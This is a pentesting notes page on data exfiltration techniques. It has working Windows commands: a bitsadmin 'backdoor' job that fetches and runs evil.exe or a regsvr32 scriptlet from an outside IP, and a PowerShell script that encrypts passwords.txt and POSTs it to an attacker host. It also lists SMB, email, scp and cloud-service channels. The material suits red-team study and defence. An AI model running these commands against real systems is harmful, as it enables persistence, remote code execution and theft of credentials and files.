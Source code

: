 # Data Exfiltration

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.‌
{% endhint %}

{% hint style="danger" %}
Not much here yet...please feel free to contribute at [my GitHub page](https://github.com/zweilosec/Infosec-Notes).
{% endhint %}

### BITS Jobs

{% tabs %}
{% tab title="PowerShell" %}
First, you must import the BitsTransfer PowerShell Module with `Import-Module BitsTransfer`.  After you import the BitsTransfer module, the following cmdlets are available:

* **`Add-BitsFile`** Adds files to a BITS transfer
* **`Complete-BitsTransfer`** Completes a BITS transfer
* **`Get-BitsTransfer`** Gets a BITS transfer
* **`Remove-BitsTransfer`** Stops a BITS transfer
* **`Resume-BitsTransfer`** Resumes a suspended BITS transfer
* **`Set-BitsTransfer`** Configures a BITS transfer job
* **`Start-BitsTransfer`** Creates and starts a BITS transfer job
* **`Suspend-BitsTransfer`** Pauses a BITS transfer job

For example, the following Windows PowerShell command begins a BITS transfer from the local computer to a computer named CLIENT:

```powershell
Start-BitsTransfer -Source file.txt -Destination \\client\share -Priority normal
```

When running Windows PowerShell interactively, the PowerShell window displays the progress of the transfer. The following command uses an abbreviated notation to download a file from a Web site to the local computer:

```powershell
Start-BitsTransfer https://server/dir/myfile.txt C:\docs\myfile.txt
```

Manage BITS with PowerShell - Microsoft:

* [https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721(v=msdn.10)](https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721\(v=msdn.10\))
{% endtab %}

{% tab title="cmd.exe" %}
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```
{% endtab %}
{% endtabs %}

### Using FTP

See [this section](privilege-escalation.md#using-ftp) under Privilege Escalation

### Using SMB

{% tabs %}
{% tab title="PowerShell" %}
#### Create an SMB share <a href="#example-1-create-an-smb-share" id="example-1-create-an-smb-share"></a>

```powershell
New-SmbShare -Name "Exfil" -Path "C:\temp" -FullAccess "$Domain\Administrator"
```

This command creates an SMB share named "Exfil" and grants Full Access permissions to "$Domain\\$UserName".

For more about the New-SmbShare PowerShell cmdlet:

* [https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps](https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps)
{% endtab %}

{% tab title="cmd.exe" %}

{% endtab %}
{% endtabs %}

See [this section](privilege-escalation.md#smb) under Privilege Escalation for more

### HTTP POST with PowerShell

If you set up a web server to accept post requests, you can either AES encrypt or base64 encode your target data and simply send an HTTP request to the server with the data.

Example with AES encrypted payload:

```
$file = Get-Content C:\Users\Target\Desktop\passwords.txt
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("UseMeToEncrypt")
$securestring = New-Object System.Security.SecureString
foreach ($char in $file.toCharArray()) {
      $secureString.AppendChar($char)
}
$encryptedData = ConvertFrom-SecureString -SecureString $secureString -Key $key

Invoke-WebRequest -Uri http://www.attacker.host/exfil -Method POST -Body $encryptedData
```

To decode the data on the other side simply reverse the process:

```
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("54b8617eca0e54c7d3c8e6732c6b687a")
$encrypted = "$encrypted_payload"
echo $encrypted | ConvertTo-SecureString -key $key | ForEach-Object {[Runtime.InteropServices.Marshal]::PtrToStringBSTR([Runtime.InteropServices.Marshal]::SecureStringToBSTR($_))}
```

Simply substitute the `$encrypted_payload` variable with the actual content that was sent in the body of the HTTP request, and you will have your exfiltrated file!

This works in either Windows Powershell, or `pwsh` on Unix systems as well. &#x20;

One potential limitation I have noted is that it seems to strip out newline characters in text files. &#x20;

### Covert to and from Base64 with PowerShell

You can always convert your data or files to be exfiltrated to Base64 text and simply copy and paste this in your terminal (or use bash/PowerShell magic to convert your target data back).  See [this section](privilege-escalation.md#covert-to-and-from-base64-with-powershell) under Privilege Escalation for more information on this technique.

### Send an email with PowerShell

#### PowerShell `Send-MailMessage` cmdlet

```powershell
Send-MailMessage -From 'User01 <user01@fabrikam.com>' -To 'User02 <user02@fabrikam.com>', 'User03 <user03@fabrikam.com>' -Subject 'Sending the Attachment' -Body "Forgot to send the attachment. Sending now." -Attachments .\data.csv -Priority High -DeliveryNotificationOption OnSuccess, OnFailure -SmtpServer 'smtp.fabrikam.com'
```

* The **`From`** parameter to specify the message's sender.&#x20;
* The **`To`** parameter specifies the message's recipients.&#x20;
* The **Subject** parameter describes the content of the message.&#x20;
* The **Body** parameter is the content of the message.
* The **`Attachments`** parameter specifies the file in the current directory that is attached to the email message.&#x20;
* The **`Priority`** parameter sets the message to **High** priority.&#x20;
* The **`-DeliveryNotificationOption`** parameter specifies two values, **`OnSuccess`** and **`OnFailure`**. The sender will receive email notifications to confirm the success or failure of the message delivery.&#x20;
* The **`SmtpServer`** parameter sets the SMTP server to **smtp.fabrikam.com**.

According to Microsoft this cmdlet has been deprecated with no replacement.  However, if it is present on the machine it should still work!

* [https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2)

## Misc

### Web services

* Anon paste sites like Pastebin offer an easy exfiltration channel.&#x20;
* GitHub and other code versioning sites are often permitted in many technical organizations.
* Many common file-storage sites like OneDrive, Dropbox, Google Drive, and Box are often permitted, especially if an organization outsources to shared cloud services.

### File-transfer Programs

In addition to the methods listed above, the following programs can be used to transfer files, provided you have copied the program to the victim machine, and it is not blocked:

* netcat
* socat
* tftp

### SCP

The attacker has to have SSHd running.

```bash
scp <username>@<Attacker_IP>:<directory>/<filename> 
```

### Airgap Exfiltration

* [https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/](https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/)

## References

* [https://azeria-labs.com/data-exfiltration/](https://azeria-labs.com/data-exfiltration/)
* [https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/)

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

